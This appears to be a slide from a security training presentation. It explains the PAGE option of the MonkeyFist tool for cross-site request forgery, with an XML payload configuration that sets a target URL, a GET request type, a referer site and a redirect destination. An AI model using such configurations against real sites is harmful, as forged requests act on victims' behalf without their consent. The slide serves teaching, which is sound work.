

# MonkeyFist Attack: PAGE
The PAGE option will attack the XSRF vulnerability
Then redirects to another page using a META Refresh
<PAYLOAD n="3">
	<SITE l="counterhack.net">
		<METHOD>PAGE</METHOD>
		<ATTACKTYPE>GET</ATTACKTYPE>
		<TARGET>http://secureideas.com/test.php</TARGET>
		<DESTINATION>http://www.youtube.com/watch?v=dTQ63uppjlM</DESTINATION>
	</SITE>
</PAYLOAD>

Value of the Referer header
Will the generated page use GET or POST

Where to go after attacking